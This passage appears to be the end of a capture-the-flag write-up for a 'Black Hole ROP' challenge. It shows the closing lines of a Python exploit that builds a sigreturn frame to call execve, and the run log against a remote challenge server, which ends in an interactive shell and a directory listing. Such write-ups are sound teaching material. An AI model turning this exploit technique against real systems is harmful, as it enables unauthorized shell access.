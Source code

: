 ```

frame.rip = syscall
frame.rax = 0x3b
frame.rdi = writable_area
frame.rsi = 0
frame.rdx = 0
payload += bytes(frame)
target.sendline(payload)

target.interactive()
```
And here is how it looks when run against the netcat connection:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes$ python3 blackhole_rop_writeup.py
[+] Opening connection to 0.cloud.chals.io on port 12655: Done
b"                                                                           \n                                                      llllooooooolllllll   \n                                              llloodddddddddddddoooooooooll\n                                       lllloooddddddddddddddddooooooooooool\n                                  llooodddddddddxxxxxkkkkkkxxddoooooooolll \n                             lloooddddddxxxxkOOOOOO000000OOkxxdddoooolllll \n                        llloodddddxxxkkOOO0000000KKKKKK000Okxddddoooolll   \n                     lllooddxxxxkkOOOOO0000OOOOOOOOO00KK00Oxddddddoooll    \n                  llloodxxxxkkOOOOOOkkxdddoooolllllloxO000kxddoddddoll     \n               lloooodxkkkOOOOOOkdol         ''....'  x00Oxdddoooooll      \n             looooodxkOOOOOkxdol   '''.........     . kOkxddoooooll        \n          llooooddxkOO00Okdl   '.........            xOkxddooooool         \n        loooooddxkOOOOkxo  '..... ....            . xkxdoooooool           \n      looooddxxkkOOOOxl  .......                . oxxdooooolll             \n    loddddddxxxkOOOkd  ...                    ' oxxdooooooll               \n   lodddoddxxxkOO0Oxl '.                  .' ldxddoooooolll                \n  loodddoddxxkkOOOOxo  ..           ..'   odddddoooooooll                  \n lodddddoddxxkkkOOOOkdl  '......'   odxxdddddoooooolll                     \nlloddddddooddxxxxkkkOkkkkxxxddddxxxxxxdddooooollll                         \nllooddddddddddddxxxxxxxxxxxdddddddddddoooolllll                            \nllloooooooooooddddxxxxxxxdddddddoooollll l                                 \nooooooooddddddddxddddddddddooolll  lll                                     \nlooooooooooooooooooooooollll                                               \n    llllllooooolllll                                                       \n       lllll                                                               \n----------------------------------------------------------------------------\n ~ Welcome to Black Hole ROP ~ \n----------------------------------------------------------------------------\n<<< Address of syscall, ret    : 0x4013bb\n<<< Address of writable memory : 0x666000\n<<< Address of pop rax, ret    : 0x4013c5"
b'\n----------------------------------------------------------------------------\n\n>>> \n<<< You say'
b':                                         5fa9bf0cccccccc\n>>> \n<<< You say'
b':                                                                                            5fa9bf0cccccccc\x01`f\n>>> \n<<< You say'
b':                                                                                                   5fa9bf0ccccccc\x02`f\n>>> \n<<< You say'
b':                                                                                                        5fa9bf0ccccccc\x03`f\n>>> \n<<< You say'
b':                                         5fa9bf0cccccccc\x04`f\n>>> \n<<< You say'
b':                                                                                                             5fa9bf0ccccccc\x05`f\n>>> \n<<< You say'
b':                                                                                                  5fa9bf0ccccccc\x06`f\n>>> \n<<< You say'
[*] Switching to interactive mode
: /bin/sh
>>>
<<< You say: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xc5ls
-
banner_fail
bin
blackhole
boot
dev
```